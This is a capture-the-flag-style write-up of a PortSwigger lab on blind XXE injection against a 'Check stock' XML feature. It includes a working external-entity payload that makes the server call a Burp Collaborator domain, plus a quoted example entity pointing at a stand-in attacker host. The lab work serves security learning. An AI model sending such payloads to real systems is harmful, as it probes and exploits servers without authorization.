 # Blind XXE with out-of-band interaction | Mar 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction), you'll learn: Blind XXE with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131837.png)

In here, we can view other products' details:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131907.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301131918.png)

Also, in all products details, we can check the available stocks.

**Let's click on the "Check stock" button, and see the responses in Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132028.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132043.png)

**When we clicked that button, it'll send a POST request to `/product/stock`, with an XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

When we see XML data, it's worth to test XXE (XML external entity) injection, XPATH injection.

**In XXE injection, we can try to trigger an XML parsing error to identify is there any XXE vulnerability:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        a
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132439.png)

When we parsed an invalid `productId`, it'll response us "Invalid product ID".

That being said, we don't see any XML parsing error.

Now, we can also test **blind XXE**!

### What is blind XXE?

Blind XXE vulnerabilities arise where the application is vulnerable to [XXE injection](https://portswigger.net/web-security/xxe) but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

### Detecting blind XXE using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

**Armed with above information, let's try to send the following payload to dectect blind XXE.**

- Go to Burp Suite's Collaborator and copy the payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301132845.png)

- Send the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "http://e8nrmvt5jkg4fqm3m6akoir08rej29qy.oastify.com"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301133041.png)

- Burp Suite's Collaborator:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/XXE-Injection/XXE-3/images/Pasted%20image%2020230301133059.png)

As you can see, we've **recieved 2 DNS lookups**, which means **the "Check stock" feature is indeed vulnerable to blind XXE injection**!!

# What we've learned:

1. Blind XXE with out-of-band interaction